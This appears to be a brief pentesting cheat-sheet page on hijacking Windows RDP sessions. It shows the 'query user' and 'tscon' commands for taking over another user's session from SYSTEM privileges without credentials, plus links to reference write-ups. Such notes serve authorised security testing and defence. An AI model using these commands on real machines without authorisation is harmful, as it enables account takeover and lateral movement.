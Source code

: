 # Living off the Land

## Conditions

TODO: Fill the rest of conditions

- With `NT AUTHORITY\SYSTEM` privileges you can access any **open RDP** session by any user without the credentials.

## Session Stealing

- List active user sessions

`C:\> query user`

- Steal user session to authenticate the machine remotely

`C:\> tscon <id> /dest:<session_name>`

---
## References

- [Hacktricks: Pentesting RDP](https://book.hacktricks.xyz/pentesting/pentesting-rdp)

- [Hacking Articles: Remote Services (Mitre:T1021)](https://www.hackingarticles.in/lateral-movement-remote-services-mitret1021/)